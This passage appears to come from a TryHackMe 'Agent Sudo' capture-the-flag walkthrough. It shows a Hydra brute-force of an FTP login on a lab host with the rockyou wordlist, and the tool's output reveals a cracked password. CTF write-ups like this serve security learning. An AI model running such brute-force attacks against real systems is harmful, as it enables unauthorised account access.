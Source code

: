 <a href="/assets/images/tryhackme/agent-sudo/4.png"><img src="/assets/images/tryhackme/agent-sudo/4.png"></a>

It's agent C, let's see the response.
<a href="/assets/images/tryhackme/agent-sudo/5.png"><img src="/assets/images/tryhackme/agent-sudo/5.png"></a>

It said that our password (`chris`) is weak. So i think we can bruteforce the password later on.

## Hash cracking and brute-force
Since FTP port is open, let's bruteforce the ftp first.
```bash
$ hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.195.160 -t 4 ftp
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-12 23:17:49
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ftp://10.10.195.160:21/
[STATUS] 62.00 tries/min, 62 tries in 00:01h, 14344337 to do in 3856:01h, 4 active
[STATUS] 61.33 tries/min, 184 tries in 00:03h, 14344215 to do in 3897:54h, 4 active
[21][ftp] host: 10.10.195.160   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-01-12 23:21:54
```